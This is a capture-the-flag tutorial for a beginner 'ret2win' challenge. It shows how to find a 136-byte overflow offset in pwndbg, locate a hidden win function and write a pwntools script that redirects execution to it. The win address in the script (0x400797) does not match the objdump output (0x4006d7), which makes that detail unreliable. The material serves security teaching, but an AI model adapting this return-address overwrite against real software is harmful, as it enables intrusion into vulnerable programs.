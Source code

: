# Challenge Name
kidr2w

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, 
1. `enlightenment` function has a vulnerable `gets` function.
2. `hiddenBlessing` function contains the flag.

We want to perform ret2win in this case.

### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `hiddenBlessing` address

### To find the offset needed:
1. Open program with pwndbg
```shell
$> gdb chall
```

2. Generate the cyclic pattern of 100 bytes. This cyclic sequence helps uses to identify what address or how many bytes we want to overwrite.
```shell
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaa...
```

3. Run the program and paste when prompted
```shell
pwndbg> run
``` 

NOTE: Remember to pick option 2 first.

4. You should be able to observe this in the registers:
```shell
 RBP  0x6161616161616171 ('qaaaaaaa')
 RSP  0x7fffffffdc48 ◂— 'raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
```

5. Let's find our offset:
```shell
pwndbg> cyclic -l raaaaaaa
Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```

### To find the win address:
```shell
$> objdump -d chall | grep hiddenBlessing
00000000004006d7 <hiddenBlessing>:
...
```

### How do we place inputs for the options then?
You can do the following so that it sends what you want after the binary output:
```python
input = b"abc\n"
p.sendafter("binary output", input)
```

With that knowledge, we can put our solve script together!

### Final Solution

1. Import the library
```python
from pwn import *
```

2. Local/remote solve
```python
# local solve
p = process("./chall")

# remote
# p = remote("IP", PORT)
```

3. Add address of `hiddenBlessing` and nextline
```python
# hiddenBlessing function
win = p64(0x400797) + b'\n'
```

4. Send option 2 after prompt
```python
# Choose option first to enlightenment function
p.sendlineafter("purpose: \n", b'2')
```

5. Combine our payload & send after we pick option 2
```python
# send payload after sendting option
payload = b'A' * 136  
payload += win        
p.sendafter("know? \n", payload)
```

6. Interact with service
```python
p.interactive()
```

Your script should look like this:

```python
from pwn import *

# remote solve
p = remote("server", port)

# hiddenBlessing function
win = p64(0x400797) + b'\n'

# Choose option first to enlightenment function
option = b'2\n'
p.sendlineafter("purpose: \n", b'2')


# send payload after sending option
payload = b'A' * 136  
payload += win        
p.sendafter("know? \n", payload)

p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. which part of the code has a vulnerable C function?
2. check out sendafter: https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679

## Attached Files
- chall.c
- chall

## Resources
- https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win
- https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679
- https://docs.pwntools.com/en/dev/tubes.html


## Flag
TBD